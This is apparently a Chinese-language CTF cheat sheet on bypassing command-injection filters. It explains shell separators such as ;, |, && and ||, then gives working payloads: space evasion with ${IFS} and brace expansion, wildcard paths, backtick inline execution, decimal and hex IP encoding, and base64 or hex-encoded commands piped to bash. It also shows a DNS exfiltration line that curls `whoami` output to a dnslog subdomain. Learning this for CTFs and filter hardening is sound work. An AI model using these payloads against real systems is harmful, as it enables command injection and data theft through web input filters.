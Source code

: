 # 命令执行绕过

### “;”分号用法

方式：command1 ; command2

用;号隔开每个命令, 每个命令按照从左到右的顺序,顺序执行， 彼此之间不关心是否失败， 所有命令都会执行。

### “| ”管道符用法

上一条命令的输出，作为下一条命令参数。ctf里面：ping 127.0.0.1 | ls(只执行ls不执行前面的）

方式：command1 | command

Linux所提供的管道符“|”将两个命令隔开，管道符左边命令的输出就会作为管道符右边命令的输入。连续使用管道意味着第一个命令的输出会作为 第二个命令的输入，第二个命令的输出又会作为第三个命令的输入，依此类推。

利用一个管道：

```# rpm -qa|grep licq
# rpm -qa|grep licq
```

这条命令使用一个管道符“|”建立了一个管道。管道将rpm -qa命令的输出（包括系统中所有安装的RPM包）作为grep命令的输入，从而列出带有licq字符的RPM包来。

利用多个管道：

```
# cat /etc/passwd | grep /bin/bash | wc -l
```

这条命令使用了两个管道，利用第一个管道将cat命令（显示passwd文件的内容）的输出送给grep命令，grep命令找出含有“/bin /bash”的所有行；第二个管道将grep的输出送给wc命令，wc命令统计出输入中的行数。这个命令的功能在于找出系统中有多少个用户使用bash。

### “&”符号用法

ctf中用法 ping 127.0.0.1 & ls(先执行ls后执行ping)

&放在启动参数后面表示设置此进程为后台进程

方式：command1 & command2

默认情况下，进程是前台进程，这时就把Shell给占据了，我们无法进行其他操作，对于那些没有交互的进程，很多时候，我们希望将其在后台启动，可以在启动参数的时候加一个'&'实现这个目的。

### “&&”符号用法

ctf中用法 ping 127.0.0.1 && ls（ping命令正确才执行ls 要是ping 1 && ls ls就不会执行)

shell 在执行某个命令的时候，会返回一个返回值，该返回值保存在 shell 变量 $? 中。当 $? == 0 时，表示执行成功；当 $? == 1 时（我认为是非0的数，返回值在0-255间），表示执行失败。

有时候，下一条命令依赖前一条命令是否执行成功。如：在成功地执行一条命令之后再执行另一条命令，或者在一条命令执行失败后再执行另一条命令等。shell 提供了 && 和 || 来实现命令执行控制的功能，shell 将根据 && 或 || 前面命令的返回值来控制其后面命令的执行。

**语法格式如下：**

```
command1 && command2 [&& command3 ...]
```

命令之间使用 && 连接，实现逻辑与的功能。

只有在 && 左边的命令返回真，右边的命令才会被执行。

只要有一个命令返回假，右边的命令就不会被执行。

**“||”符号用法**

和&&相反 左边为假才执行命令二

逻辑或的功能

**语法格式如下：**

> command1 || command2 [|| command3 ...]

命令之间使用 || 连接，实现逻辑或的功能。

只有在 || 左边的命令返回假，右边的命令才会被执行。这和 c 语言中的逻辑或语法功能相同，即实现短路逻辑或操作。

只要有一个命令返回真，右边的命令就不会被执行。（直到返回真的地方停止执行）。

## 一些绕过方式

### linux下绕过空格

{cat,flag.txt}

```text
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
ca\t fl\ag
```

kg=$'\x20flag.txt'&&cat$kg(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)

### 通配符绕过

？？？在linux里面可以进行代替字母

/???/c?t flag.txt

*在linux里面可以进行模糊匹配

cat flag.* 进行模糊匹配php

### 内联执行的做法：

payload:cat$IFS$1`ls`

使用内联执行会将 ``内的输出作为前面命令的输入，当我们输入上述payload时，等同于cat falg.php;cat index.php

### 利用DNS管道解析：

这里提供一个在线网址，可以直接进行给一个利用网址：admin.dnslog.link注册一个账号后会分配一个子域名可以利用。

|curl `whoami`.[http://xxxx.xxx](https://link.zhihu.com/?target=http%3A//xxxx.xxx)(子域名)

这样就会在利用网址看到反弹结果。

网络地址转化为数字地址

网络地址有另外一种表示形式，就是数字地址比如127.0.0.1可以转化为2130706433

可以直接访问

**[http://2130706433](https://link.zhihu.com/?target=http%3A//2130706433)**

或者
**[http://0x7F000001](https://link.zhihu.com/?target=http%3A//0x7F000001)**

这样就可以绕过.的ip过滤，这里给个转化网址：

```text
http://www.msxindl.com/tools/ip/ip_num.asp
```

### 代替cat的命令

cat:由第一行开始显示内容，并将所有内容输出

tac:从最后一行倒序显示内容，并将所有内容输出

more:根据窗口大小，一页一页的现实文件内容

less:和more类似，但其优点可以往前翻页，而且进行可以搜索字符

head:只显示头几行

tail:只显示最后几行

nl:类似于cat -n，显示时输出行号

tailf:类似于tail -f

sort%20/flag 读文件

dir来查看当前目录文件

### 编码绕过

**base64：**

echo Y2F0IGZhbGcucGhw|base64 -d|bash //cat flag.php

echo Y2F0IGZhbGcucGhw|base64 -d|sh //cat flag.php

**hex编码绕过：**

echo 63617420666c61672e706870 | xxd -r -p|bash //cat flag.ph

**unicode编码**

$(printf “\154\163”) //ls

$(printf “\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70”) //cat flag.php

对于关键字还可以用单引号和反斜杠绕过 比如 cat fl’'ag cat fl\ag

